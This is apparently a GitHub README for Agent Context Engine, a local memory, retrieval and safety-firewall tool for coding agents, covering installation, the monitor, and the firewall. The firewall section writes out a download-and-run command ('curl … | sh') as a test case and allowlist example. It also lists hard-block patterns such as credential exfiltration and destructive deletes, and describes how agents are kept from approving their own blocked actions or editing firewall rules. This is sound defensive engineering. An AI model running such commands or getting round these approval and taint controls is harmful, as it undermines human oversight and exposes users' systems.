

<p align="center">
  
</p>

# Agent Context Engine

Local-first cross-harness context engine for coding agents with memory,
retrieval, tracing, summarization, and safety controls.

Agent Context Engine captures agent sessions across supported runners, keeps the
runtime local and inspectable, and gives you retrieval, condensed handovers,
monitoring, graph extraction, and firewall-style safety controls without
requiring cloud infrastructure.

Licensed under the Apache License, Version 2.0. See [LICENSE](LICENSE),
[NOTICE](NOTICE), and [THIRD_PARTY_NOTICES.md](THIRD_PARTY_NOTICES.md).

Created and maintained by [Frank Richter](https://www.linkedin.com/in/frank-richter-24657078/).

Current public versions:

- Backend / product: `0.2.7`
- Monitor: `0.6.5`

See [CHANGELOG.md](CHANGELOG.md) for release history since the initial public release.

## What It Does

- captures sessions, prompts, tools, and runtime events through hooks
- stores local memory for retrieval across prior work
- builds condensed handovers and dream-based context compression
- exposes a local monitor for sessions, risks, storage, integrations, and graph state
- enforces safety controls for risky tool calls and memory retrieval
- supports cross-harness workflows for Codex, Claude Code, Cursor, Gemini, Antigravity, and OpenCode

## Quick Start

From a fresh clone:

```sh
python3 scripts/agent_context_engine.py install
```

The installer runs a read-only discovery pass first, proposes a target root,
memory root, monitor port, wrapper naming, and LaunchAgent behavior, and waits
for explicit approval before writing files.

After install:

```sh
cd /path/to/agent-context-engine-root
agent-context-engine doctor
agent-context-engine check-installation
agent-context-engine launchagent-status
```

## How It Works

1. Hooks capture session activity from supported runners.
2. Local storage keeps events, summaries, tool metadata, retrieval indexes, and safety audit data.
3. Retrieval and handover flows turn prior work into usable context for the next agent session.
4. Background scheduling keeps summaries, dreams, graph extraction, and maintenance moving forward.
5. The local monitor exposes runtime state, integrations, risks, and storage in one place.

## Documentation

- [Overview](docs/overview.md)
- [System Overview](docs/architecture/SYSTEM_OVERVIEW.md)
- [Activation Model](docs/setup/activation-model.md)
- [Central Installation Mode](docs/setup/central-installation-mode.md)
- [Runner And Harness Guide](docs/setup/RUNNER_HARNESSES.md)
- [Build And Checks](docs/setup/BUILD_AND_CHECKS.md)
- [Monitor Operator Workflows](docs/runbooks/monitor-operator-workflows.md)
- [Project Origin](docs/project-origin.md)

## For Agents

- [AGENT_BOOTSTRAP.md](AGENT_BOOTSTRAP.md): guided install contract for agent-driven setup
- [session-start-hook-entry.md](session-start-hook-entry.md): session-start retrieval and context workflow
- [SKILL.md](SKILL.md): packaged skill-facing instructions

## Development

Core checks:

```sh
./scripts/check --skip-runtime-db
python3 -m unittest discover -s tests -v
./scripts/audit
```

Dependency files are pinned and split by purpose:

- `backend/requirements-runtime.txt`
- `backend/requirements-build.txt`
- `backend/requirements-audit.txt`

## Repository Layout

- `backend/`: Python backend, CLI, hooks, runtime logic, monitor API, and storage model
- `frontend/`: monitor UI
- `scripts/`: wrappers, checks, audits, and local operator helpers
- `templates/`: hook templates for supported runners
- `contracts/`: OpenAPI contract and interface specs
- `docs/`: public setup, architecture, runbooks, and product documentation

## Install Into A Target Project

If no target has been chosen yet, run:

```sh
python3 scripts/agent_context_engine.py install
```

The installer will explain what Agent Context Engine does, why it improves the workflow,
keep the source checkout unchanged by default, suggest the central install root
`~/.agent-context-engine/install` plus the matching runtime storage root
`~/.agent-context-engine/memory`, and print the exact install command. The
guided defaults relink the shared public commands
`agent-context-engine`, `ace`, and the `*-ace` wrappers to the chosen
installation, bootstrap the local runtime, and start the monitor after install.

If discovery points at the central default target
`~/.agent-context-engine/install`, that is the default installation plan even
when the current checkout is a fresh clone. In that mode the checkout stays
unchanged unless the user explicitly chooses a different `--target`.

Agent Context Engine also keeps a central monitor runtime registry at
`~/.agent-context-engine/monitor-runtime.json`. Every monitor start updates
that file with the current instance, host, port, PID, and timestamps so future
discovery runs can avoid known active monitor ports before proposing defaults.
The installer then performs one more final monitor-port reconciliation
immediately before writing the install profile, so a stale discovery result can
still be corrected at install time.

```sh
python3 scripts/agent_context_engine.py install \
  --target /path/to/agent-context-engine-root \
  --project "project-a=/path/to/project-a" \
  --project "project-b=/path/to/project-b" \
  --link-codex-ace \
  --link-claude-ace \
  --link-agy-ace \
  --link-gemini-ace \
  --link-opencode-ace \
  --force
```

This installs:

```text
<target>/AGENTS.md (created or appended with the Agent Context Engine quick path)
<target>/scripts/
<target>/.codex/hooks.json
<target>/.codex/hooks/hook_adapter.sh
<target>/.claude/settings.json
<target>/.claude/hooks/hook_adapter.sh
<target>/docs/knowledge/repos.md
```

The `AGENTS.md` block tells future agents to use
`agent-context-engine search`, `handover`, `last`,
and `doctor` before doing broad repository searches when the user asks about
previous sessions or existing analysis.

Keep `agent-context-engine` as the canonical
agent-facing CLI path in installed projects. Do not duplicate the scripts into
other project folders; wrapper commands should call this path. Calls through
this CLI path are allowlisted out of synchronous LLM classification, while still
being logged and deterministically scanned, so routine memory lookups stay fast
and do not pay an extra classifier subprocess.

With wrapper link flags, it can also create:

```text
~/.local/bin/agent-context-engine -> <target>/scripts/agent-context-engine
~/.local/bin/codex-ace -> <target>/scripts/codex-ace
~/.local/bin/claude-ace -> <target>/scripts/claude-ace
~/.local/bin/agy-ace -> <target>/scripts/agy-ace
~/.local/bin/gemini-ace -> <target>/scripts/gemini-ace
~/.local/bin/opencode-ace -> <target>/scripts/opencode-ace
```

For a second independent installation on the same Mac, use the deterministic
isolated mode so existing global commands are not replaced:

```sh
python3 scripts/agent_context_engine.py install \
  --target /path/to/second-agent-context-engine-root \
  --isolated \
  --link-codex-ace \
  --link-claude-ace \
  --link-agy-ace \
  --link-gemini-ace \
  --link-opencode-ace
```

`--isolated` defaults to:

- target-local runtime storage under `<target>/memory`
- an auto-derived instance name and prefixed wrapper names
- no takeover of shared `agent-context-engine`, `ace`, or unprefixed `*-ace`
  commands

It creates prefixed wrapper names in `~/.local/bin/`. The local CLI remains
scoped to that root: `/path/to/second-agent-context-engine-root/scripts/agent-context-engine`.

When an agent is driving installation from a restricted environment, do not
over-interpret pre-approval health checks against an existing central install.
Results such as `Operation not permitted`, a temporarily non-writable
home-directory path, or `unable to open database file` are permission-limited
signals, not enough on their own to declare the existing install broken.

If `docs/knowledge/repos.md` does not exist, the installer creates it. Pass
known projects with repeated `--project "name=/absolute/path"` arguments, or run
the installer in an interactive terminal and answer the project name/path
questions. Use `--no-interactive` for automation.

If the target already contains Agent Context Engine-managed files, the installer refuses
to overwrite them unless `--force` is passed. For a second installation, prefer
`--instance-name`. For client activation in another project, prefer
`cursor-enable`, `antigravity-enable`, `gemini-enable`, or `opencode-enable`
instead of reinstalling.

For `codex`, `claude`, and `cursor`, keep two states separate:

- `GUI hooks only`: the workspace root contains the Agent Context Engine hook files and
  the GUI can invoke them locally.
- `headless CLI ready`: the corresponding CLI also exists on the machine, so
  wrappers, monitor ask, and Dreaming can run.

Use `--codex-workspace-root`, `--claude-workspace-root`, and
`--cursor-workspace-root` when the actual GUI/editor workspace differs from the
central Agent Context Engine root.

For separate GUI workspaces, the generated Codex/Claude/Gemini hook adapters
must point back to the central Agent Context Engine root. They are now written with
explicit absolute `ROOT` and `SCRIPT` paths for that reason; they should not
infer the root from the workspace-local `.codex` / `.claude` / `.gemini`
folder layout.

The installer is now workflow-aware as well. Use `--monitor-runner`,
`--dream-runner`, and `--query-expansion-runner` to record what the setup is
actually for. `check-installation` reads that stored profile later and can then
explain when GUI-only Codex/Claude/Cursor usage is insufficient because a
selected headless workflow still needs the matching terminal CLI.
`repair-installation --apply` also stays conservative here: if an external
workspace adapter already points at a different root or script, the command
will report that mismatch first and only rewrite it when
`--rewrite-workspace-hook-adapters` is explicitly added.

## After Install

### Codex

```sh
cd <target>
agent-context-engine doctor
agent-context-engine check-installation
agent-context-engine doctor --relocation-report
codex-ace
```

`doctor --relocation-report` is useful after copying an existing `memory/`
folder to a new root. The SQLite data remains readable, but historical
`cwd`/`last_workdir`/`transcript_path` values may still point at the old
location; the report shows representative rows so the user can decide whether
that is expected history or needs migration.

If you only use a Codex GUI/editor workspace, the hook files in that workspace
may still work without a separate headless CLI. But `codex-ace`,
`codex exec`, monitor ask with runner `codex`, and Dreaming still require the
Codex CLI on the machine. In practice that also means a terminal-side
`codex login` before the first headless use. The same separation applies to
Claude Desktop vs. `claude`, and Cursor GUI hooks vs. `cursor-agent`.

At Codex `SessionStart`, the project hook now injects only a short deterministic
activation note. It does not list previous sessions in the visible chat by
default. Use `agent-memory last`, `folder`, `use <session_id>`, or `handover
<session_id>` when the user asks for previous work. The `codex-ace` wrapper
preserves the original launch folder in `AGENT_MEMORY_LAUNCH_CWD` before it
changes into the central Memory root, and subsequent hooks update `last_workdir`
from tool inputs such as `workdir`, `working_dir`, or `cwd`.

Personal Operating Memory lives in `memory/personal/` as readable Markdown. In
compact startup mode the hook only reports that startup-safe personal memory is
available; in `AGENT_MEMORY_STARTUP_CONTEXT=full` it injects only files whose
frontmatter has `injection_policy: startup_safe` and `sensitivity: normal`.
Private or `never_auto` files are never injected automatically.

For debugging only, set `AGENT_MEMORY_STARTUP_CONTEXT=full` before starting
Codex to restore the legacy detailed startup list with recent and overlapping
folder sessions.

Personal memory commands:

```sh
agent-context-engine personal init
agent-context-engine personal list
agent-context-engine personal list --startup-safe
agent-context-engine personal show engineering/architecture
agent-context-engine personal propose engineering/architecture "- Prefer aggregate boundaries for DDD contexts."
agent-context-engine personal proposals
agent-context-engine personal accept <proposal_id>
agent-context-engine personal audit
```

Retrieval with provenance:

```sh
agent-context-engine retrieve "github analyse projekt" --limit 10
agent-context-engine retrieve "hexagonale architektur ddd" --kind personal_memory --limit 10
agent-context-engine retrieve "secrets personal memory" --include-risky --json
agent-context-engine retrieve "hexagonale architektur" --query-expansion llm --expander-runner codex
```

Use `retrieve` for agentic work when the answer should be traceable. It fuses
session lookup, Markdown/FTS chunks, and materialized graph entities, then logs
the query to `retrieval_runs`, `retrieval_results`, and `memory_access_log`.
By default it filters private, secret, high-risk, and `never_auto` memories.
Use `--include-risky` only when the user explicitly asks to inspect those
entries.

`retrieve` always records the detected input language and expanded query list in
the run filters. Default `--query-expansion auto` uses deterministic bilingual
aliases, so German queries such as `hexagonale architektur` also search English
terms like `hexagonal architecture`. Use `--query-expansion llm` with
`--expander-runner codex|claude|cursor` for a hardened mini-LLM normalization
step; the LLM may only return parseable JSON and the deterministic expansion is
kept as fallback.

Session report:

```sh
agent-context-engine analyze <session_selector> --json
agent-context-engine analyze <session_selector> --html --open
```

`analyze` (`analyse`) creates a compact quality-oriented session report with:

- topic extraction (thread name, session brief, first user prompt)
- timeline and event metrics
- dream runs
- entities/relations (with type counts and optional samples)
- risk events and firewall activity for this session
- quality score and quality notes

Without `--json`, the report is printed in compact shell format; with `--json`,
all sections are returned as machine-readable JSON.

Use `--html` to generate a local browser-ready report file and optionally keep it
open automatically:

```sh
agent-context-engine analyze <session_selector> --html
agent-context-engine analyze <session_selector> --html --open
```

`--html` stores reports under `memory/analysis_reports/` and prints the path as
`HTML report: <file>`.

Dream and graph outputs carry provenance/risk metadata. New dream prompts require
a `## Memory Metadata` section with `memory_kind`, `source_kind`, `confidence`,
`risk_level`, `sensitivity`, `injection_policy`, and `poisoning_flags`. Graph
patches materialize the same fields into SQLite and pass them through optional
Neo4j sync.

The monitor Retrieval tab can execute a query, inspect historical retrieval runs,
and show score, provenance, risk, and evidence per result.

Folder lookup:

```sh
agent-context-engine folder /path/to/project --limit 20
agent-context-engine last --folder /path/to/project --limit 20
```

`folder` also scans `~/.codex/sessions/**/*.jsonl` for matching but not-yet
indexed Codex transcripts. Import one explicitly with:

```sh
agent-context-engine sync-codex-transcript ~/.codex/sessions/.../rollout-...jsonl
agent-context-engine summarize --session <session_id>
```

Optional verification: inside Codex, open `/hooks` to inspect installed and active project hooks. If Codex shows a hook safety review after install or hook changes, review the listed commands and approve them there.

Full package verification includes a fresh install smoke test:

```sh
./scripts/check-agent-context-engine --include-retrieval-evals
```

### Claude Code

```sh
claude-ace
```

Symlink:

```text
~/.local/bin/claude-ace -> <target>/scripts/claude-ace
```

Hook config at `<target>/.claude/settings.json` is loaded automatically by Claude Code when the working directory is `<target>`. No explicit hook approval step is needed; Claude Code reads `settings.json` from the project root.

### Cursor IDE

Cursor Memory is project-local and opt-in per opened folder:

```sh
cd <target>
agent-context-engine cursor-enable
```

From the central Agent Context Engine root, enable a different project without
copying the skill there:

```sh
agent-context-engine cursor-enable \
  --target /path/to/project \
  --installation-root /path/to/agent-context-engine-root
```

To pin Claude instead of the default auto-selected headless runner:

```sh
agent-context-engine cursor-enable \
  --target /path/to/project \
  --installation-root /path/to/agent-context-engine-root \
  --background-runner claude
```

Cursor activation requires `codex` or `claude` on the machine for background
LLM workflows. Cursor itself provides IDE-side hooks and session capture, while
Codex or Claude handles firewall classification, dreaming, query expansion, and
other headless processing. If `--background-runner` is used, the requested
runner must be installed and authenticated; Agent Context Engine does not fall
back silently to the other runner.

This creates or merges:

```text
<target>/.cursor/hooks.json
<target>/.cursor/hooks/hook_adapter.sh
```

Disable it for the same folder:

```sh
agent-context-engine cursor-disable
agent-context-engine cursor-disable --target /path/to/project
```

Inspect state:

```sh
agent-context-engine cursor-status
agent-context-engine cursor-status --target /path/to/project
```

After enabling or disabling, reload the Cursor window or reopen the project
folder. The commands preserve non-Agent-Memory Cursor hooks by backing up and
removing only the `./.cursor/hooks/hook_adapter.sh` entries.

Cursor `afterAgentResponse`/`stop` payloads include token usage and model
metadata. The hook writes those values into `token_usage` and `turn_metrics`.

## Monitor

Start a read-only local web monitor:

```sh
agent-context-engine monitor --runner codex --port 8787
agent-context-engine monitor --runner codex --port 8787 --language de
agent-context-engine monitor --runner claude --port 8787
agent-context-engine monitor --runner cursor --port 8787
```

On startup, the monitor now checks whether `frontend/dist` is missing or stale
and attempts a local rebuild automatically when possible. If `node_modules/`
for the monitor frontend are missing, use:

```sh
agent-context-engine repair-installation --apply --install-frontend-deps
```

The monitor binds to `127.0.0.1` by default and opens
`http://127.0.0.1:<port>/`. It provides:

- status polling for sessions, events, queued hooks, pending summaries, and pending dreams
- read-only Memory Q&A using the selected runner without tools
- SQLite FTS search over indexed summaries/dreams/project memories
- default historical session table with polling, paging, agent/client, title,
  startup brief, summary preview, created/updated timestamps, project/work
  folder, derived activity status (`active`/`idle`/`stopped`), raw Dream status,
  separate session-token and Dream-token totals, compact per-session risk/taint
  posture, and a page breadcrumb
- modal session detail view with LLM summary content, Dream runs, a dedicated
  Risk & Blocks section, and the chronological stored event flow from SQLite
- D3 graph views from materialized SQLite graph tables
- Dream-run inspection with duration, runner model, event ranges, and prompt/completion/reasoning/total token metrics
- Firewall / Quarantine inspection for blocked, warned, and quarantined
  payloads, including classifier token totals, evidence references, review
  buttons, override history, classifier feedback, a small D3 risk graph, and a
  separate raw-inspection button. Raw risky content is not shown by default.
- a monitor-only Tool-Blocker switch in the Firewall tab. Disabling it is
  temporary (default 30 minutes, capped by the backend), writes `firewall_audit`,
  and requires the per-monitor browser token. There is intentionally no guarded
  chat CLI command for this. While disabled, PreToolUse still classifies and
  records risky actions, but enforcement downgrades blocks to audited warnings
  with `approval_state=firewall_disabled`.
- monitor-only scoped firewall overrides for a single session, agent/client,
  project, or workdir. These are temporary, audited in
  `firewall_override_audit`, visible in the Firewall tab, and only match when
  the current PreToolUse payload satisfies the chosen scope. Matching risky
  actions are still logged with `status=bypassed_by_firewall_override` and
  `approval_state=firewall_override`.
- hourly token statistics for today, the last 2 days, last week, or a custom
  range; filter changes reload immediately and can filter by agent/client,
  `project_id`, and actual work folder
  (`last_workdir`/`cwd`)
- grouped D3 token bars: wider bars for session token usage and narrower adjacent bars for Dream-process total tokens
- optional Neo4j graph source when `AGENT_MEMORY_NEO4J_PASSWORD` is configured

The Q&A endpoint builds a small retrieval prompt from SQLite FTS chunks and local
graph context, then calls the selected runner in no-tools/read-only mode.

## Runtime Database

For every installation, the SQLite database is:

```text
<agent-context-engine-root>/memory/status/agent-memory.sqlite3
```

Portable documentation should refer to the relative path
`memory/status/agent-memory.sqlite3`. The database is the local operational
index for sessions, events, normalized tool calls/tool outputs, token usage,
scheduler audit rows, dream runs, FTS retrieval chunks, and materialized graph
entities/relations/evidence. It also contains retrieval/provenance tables
(`memory_metadata`, `retrieval_runs`, `retrieval_results`,
`memory_access_log`) and the Memory Firewall audit tables (`risk_events`,
`risk_evidence`, `risk_policy_overrides`, `classifier_runs`,
`classifier_results`, `classifier_feedback`).

Timestamps remain stored in UTC for auditability and deterministic processing.
The monitor UI and human-facing CLI outputs such as `last`, `status`,
`tool-calls`, `file-accesses`, `risk list`, and `risk explain` render timestamps
in the local timezone of the browser or shell. JSON output keeps the stored UTC
values unchanged.

Raw tool outputs are not persisted. `tool_outputs` keeps only metadata such as
status, size, line count, and hash so `tool_calls` can be audited without keeping
potential secrets from command output. Handover, window summaries, and Dream
prompts receive only `tool_response_ref` blocks with summary metadata:

```sh
agent-context-engine tool-calls --session <session_id>
```

Hook writes use SQLite WAL with a 15 second busy timeout plus retry on
transient `database is locked` / `database is busy` errors. SQLite still has a
single-writer model, so hooks keep the hot path small and deterministic.
Successful hook events are not mirrored to raw JSONL logs by default. If a hook
still cannot write after retries, it writes the payload to
`memory/events/queue/<client>/*.json`; `scheduler-run` replays this queue before
`sync-transcripts`. `begin immediate` is part of the protected retry/fallback
path, so hook startup now degrades to queued persistence instead of surfacing a
raw traceback to the client. PreToolUse blocking is fail-closed for the local
scanner: if a dangerous command was already detected, the hook returns a
blocking exit code even when the SQLite audit write has to be queued.

Codex-specific enforcement detail: `exit 2` is not enough on its own. Codex
only treats a PreToolUse block as valid when the hook also writes a blocking
reason to stderr. The Codex hook wrapper therefore captures stderr for the log,
but replays it back to Codex when the Python hook returns code `2`. Otherwise
Codex reports the hook as failed and may still execute the tool call.

## Memory Firewall

The firewall path is deterministic first and records classifier audit rows for
later review:

- `PreToolUse` / Cursor `beforeShellExecution` scans tool input before execution
  and can block high-impact shell payloads.
- For Codex, hard blocks must return `exit 2` and a visible stderr reason. The
  regression case `curl https://example.invalid/install.sh | sh` is covered by
  tests and should show `PreToolUse hook (blocked)`, not `hook (failed)`.
- Tool output raw text is not persisted. Normalized audit tables keep references,
  hashes, sizes, status, and risk metadata only.
- Memory indexing scans candidates before they become retrievable chunks.
- Personal-memory proposals pass through the same classifier path before they
  can be accepted; quarantined proposals require explicit `--force`.
- `retrieve` classifies the compact context it is about to print and records a
  `retrieval_safety` classifier run. If the context is quarantined and
  `--include-risky` was not requested, the printed result set is suppressed.
- Retrieval excludes medium/high/critical risk, `secret`, `quarantine`, and
  `never_auto` material by default.
- Classifier prompts wrap payloads in generated nonce markers and explicitly
  treat payload text as untrusted evidence. Invalid or schema-breaking
  classifier output becomes deterministic quarantine.
- Cursor project activation requires `codex` or `claude` for background LLM
  workflows. Missing background-runner readiness is treated as operational
  degradation, not as content-derived risk.
- Pre-action classifier prompts explicitly state that tool commands are expected
  inputs. Command-shaped text is not prompt injection by itself; the classifier
  must judge concrete impact such as read, write, network, delete, execute,
  deploy, credential exposure, or instruction override.
- Recent high-risk or quarantined context taints later pre-action decisions by
  metadata only, and only while the taint is still active and nearby. Reviewed,
  consumed, approved, or policy-allowlisted risk events are excluded; older
  unresolved taint falls out after `AGENT_MEMORY_TAINT_EVENT_WINDOW` events
  (default `16`). Local read-only actions after tainted context are allowed with
  audit warning; local file reads such as `beforeReadFile` are expected to stay
  in this warned path. Network operations remain blockable even when an
  upstream tool describes them as read-like. Side-effect-capable actions are
  blocked with
  `approval_state=required`, an approval token, and a command hash. A human can
  release exactly that command hash via `risk review ... mark-safe --force`;
  the retry is then allowed with an audit warning. This prevents one resolved
  false positive from making the rest of the session unusable.
- `tainted_context_side_effect` is a guard, not a permanent session poison. For
  non-critical cases the compact classifier receives the planned command plus
  taint metadata and may downgrade the decision to an audited warning. Truly
  hard patterns such as `curl | sh`, remote downloads piped to Python/Node/etc.,
  download-then-execute chains, decoded payloads piped to shells, recursive
  force deletes, destructive git, or agent self-approval attempts remain
  deterministic hard blocks.
- A blocked PreToolUse hook means the tool was not executed. The hook feedback
  explicitly says that the operation may still be incomplete and includes a
  compact user-facing `intent`, `why`, and `not_executed` explanation. The
  active agent can adjust the command or ask for a human out-of-band approval
  instead of assuming the step succeeded.
- For local interactive use, blocked tainted side-effect commands can be
  approved once from the same chat via an exact machine-readable reply emitted
  by the hook:

```text
approve <risk_event_id> <nonce>
```

  The `UserPromptSubmit` hook accepts only that exact shape, only for the same
  session, only while the risk event is still blocked with
  `approval_state=required`, and only for the next matching `command_hash`. The
  approval is then marked `review_consumed` and cannot be reused. Multiple
  one-time approvals can be sent in one user message by placing one exact
  `approve <risk_event_id> <nonce>` line per blocked command.
- If the user has reviewed the previous tainted source and wants to continue
  the same chat without approving each later side effect individually, they can
  send this exact prompt:

```text
reset taint
```

  This inserts a session-local `session_taint_resets` marker. It does not delete
  or rewrite risk history; it only prevents older taint events from influencing
  future PreToolUse decisions in that chat. Future risky commands are still
  classified normally.
- If the user instead wants a broader temporary session bypass, direct chat
  control-plane lines are also supported:

```text
firewall disable session
firewall disable session 30m
firewall enable session
```

  Hook block messages and session monitor views should surface these exact
  lines when they are relevant.
- A human can also approve a local project directory for the current session:

```text
approve workdir /absolute/project/path
```

  This writes a session-local `session_approved_workdirs` entry. Subsequent
  local non-network side-effect commands that clearly target that path are
  downgraded to audited warnings with `approval_state=workdir_approved`.
  Network, remote execution, delete, and hard-block patterns still require
  separate review.
- Prompt hooks surface still-pending chat approvals only when the user asks
  about blocks, approvals, risk, firewall, or open work. Each entry shows the
  command preview, user-facing intent, reason, not-executed impact, risk id, and
  exact one-time `approve ...` line. An exact `approve ...` reply only returns
  the approval confirmation plus a compact count of older hidden pending
  approvals, so old false positives do not flood every turn. Codex Stop hooks
  stay stdout-silent because Codex rejects injected Stop context as invalid stop
  hook JSON.
- `agent-memory` read-only commands such as `last`, `search`, and `handover`
  remain allowlisted. Mutating risk-review approval commands such as
  `risk review ... mark-safe --force` are blocked inside guarded chats, so a
  payload cannot cause the active agent to approve its own blocked action.
  Approval must come from a human-operated shell or another trusted UI path.
- Persistent firewall rules are controlled by direct user messages, not by
  agent-executed tools. A rule is created only when the user sends an exact
  `firewall add ...` line. The `UserPromptSubmit` hook parses that line before
  normal prompt processing, stores it in `firewall_rules`, writes
  `firewall_rule_audit`, and redacts the control-plane line from the normal
  event prompt/payload so it does not become free Dream or retrieval context.
  Example:

```text
firewall add --name deploy-example --reason "reviewed deploy to known host" --scope workdir --workdir /absolute/project --action network --host deploy.example.com --expires 7d
```

  Rules can match tool, action class, host, workdir, local path, remote path,
  command pattern, and expiry. A matching rule downgrades otherwise blocked
  non-hard cases to audited warnings with
  `approval_state=firewall_rule_matched`; deterministic hard blocks such as
  credential exfiltration, `curl | sh`, destructive deletes, firewall
  self-modification, and agent self-approval still block. `firewall disable
  <rule_id> --reason ...` is accepted only as a direct user message or later
  trusted monitor control-plane action.
- The CLI firewall group is read-only or suggestion-only for agents:

```sh
agent-context-engine firewall suggest --session <session_id>
agent-context-engine firewall list
agent-context-engine firewall show <rule_id>
```

  `firewall suggest` reads blocked/warned `risk_events`, redacts secrets, stores
  `firewall_rule_suggestions` plus redacted evidence, and prints a copyable
  `firewall add ...` candidate. The suggestion is not active until the user
  sends the final line directly. Agent tool calls that try
  `agent-memory firewall add`, direct SQL writes to `firewall_rules`, or
  firewall mutation APIs are blocked as policy self-modification.
- For short-lived intent context without creating a durable rule, the user can
  send `approve explain ...` as a direct message. This writes a
  `firewall_intent_approvals` row with a short expiry and passes only the
  normalized intent summary to the PreTool classifier. It is context, not an
  approval, and cannot override hard blocks or create persistent policy.
- Teams that intentionally run high-risk DevOps commands can maintain a local
  scoped allowlist at `memory/policies/risk-allowlist.json`. Entries may match
  exact command hashes or shell-style command patterns, can be restricted by
  `workdir_prefix`, should include `reviewer`, `reason`, and `expires_at`, and
  are still logged as warned risk events with `approval_state=policy_allowlisted`.
  Example:

```json
{
  "entries": [
    {
      "enabled": true,
      "command_pattern": "curl https://trusted.example.internal/install.sh | sh",
      "workdir_prefix": "/Users/example/projects/ops",
      "expires_at": "2026-12-31T23:59:59+00:00",
      "reviewer": "platform-team",
      "reason": "approved internal bootstrap script"
    }
  ]
}
```
- By default, non-critical material is reviewed by an isolated LLM classifier.
  Deterministic `critical`/`block` findings are not sent to an LLM; everything
  else is sent to the active harness runner when known (`codex`, `claude`, or
  `cursor`). For non-hook CLI work, set
  `AGENT_MEMORY_DEFAULT_CLASSIFIER_RUNNER=codex|claude|cursor`.
- Very narrow local read-only shell commands are allowlisted out of synchronous
  LLM classification: `pwd`, local version checks such as `bun --version`,
  narrow `test -f/-d ... && echo/wc` inspections, and single-command `ls`, `cat`, `head`, `tail`,
  print-only `sed -n ...p`, `rg`, `find`, narrow read-only Git inspections
  (`git status`, `git diff`, `git log`, `git show`, `git rev-parse`,
  `git ls-files`, `git describe`), and safe local read-only pipelines. Network
  URLs, redirects, substitutions, mutating Git commands, `find -exec`,
  `find -delete`, or in-place editing flags are not allowlisted. This prevents
  routine inspection like `pwd`, `git status --short`, `sed -n '1,120p'
  AGENTS.md`, and local `rg` searches from timing out or being misread as
  prompt-injection.
- Local verification commands are also allowlisted out of synchronous LLM
  classification and are allowed with audit warning after tainted context:
  `bun run typecheck`, `bun test`, `npm test`, `npm audit`, `npm run audit`,
  `pnpm run lint`, `yarn test`, and related `check`/`verify`/`typecheck`/`lint`
  script names. Direct local `tsc ... --noEmit` invocations are included.
  Install, update, deploy, start, exec, publish, network URLs, shell composition,
  and redirects remain outside this allowlist. Secret-permission hardening
  commands like `chmod 600 *.env` are treated as `protect_secret`, allowed with
  audit warning after tainted context, and still logged.
- Classifier timeout defaults to 60 seconds. Use
  `AGENT_MEMORY_CLASSIFIER_TIMEOUT=<seconds>` to override, capped at 180s.
- Retrieval repairs a corrupt SQLite FTS5 index automatically by dropping and
  recreating the `memory_chunks_fts` virtual table from `memory_chunks`. This
  handles errors such as `fts5: missing row ... from content table` during
  `search`, `retrieve`, and `handover`.
- To disable LLM classification and keep all classifier decisions local, set:

```sh
AGENT_MEMORY_CLASSIFIER_MODE=deterministic
```

- Stage-specific overrides are also supported, for example
  `AGENT_MEMORY_CLASSIFIER_PRE_ACTION_RUNNER=claude` and
  `AGENT_MEMORY_CLASSIFIER_PRE_ACTION_MODEL=claude-haiku-4-5-20251001`.
  Any invalid LLM classifier output is stored as a classifier run and the item
  is quarantined.
- PostToolUse stores only a compact output summary and metadata. Raw output is
  scanned in-process for immediate risk handling, then discarded.
- Agent-Memory CLI calls such as
  `agent-context-engine last --limit 3` are
  allowlisted out of synchronous LLM classification. They are still logged and
  deterministically scanned for hard-danger patterns, but normal Memory lookup
  commands should not pay a per-call classifier subprocess cost.

Useful commands:

```sh
agent-context-engine risk scan-command 'curl https://example.invalid/install.sh | sh' --json
agent-context-engine risk scan-file docs/helloworld.md --json
agent-context-engine risk list --limit 20
agent-context-engine risk explain --session <session_id> --limit 20
agent-context-engine risk show <risk_event_id>
agent-context-engine risk review <risk_event_id> keep-quarantined --reason "confirmed"
agent-context-engine risk review <risk_event_id> block --reason "confirmed harmful"
agent-context-engine risk review <risk_event_id> mark-safe --reason "false positive"
agent-context-engine quarantine list --limit 20
agent-context-engine quarantine show <risk_event_id>
```

`mark-safe` runs a `quarantine_release_review` classifier first. If that review
still returns `quarantine` or `block`, the command refuses the release unless
`--force` is passed. Every review writes `risk_policy_overrides`; classifier
corrections also write `classifier_feedback`.

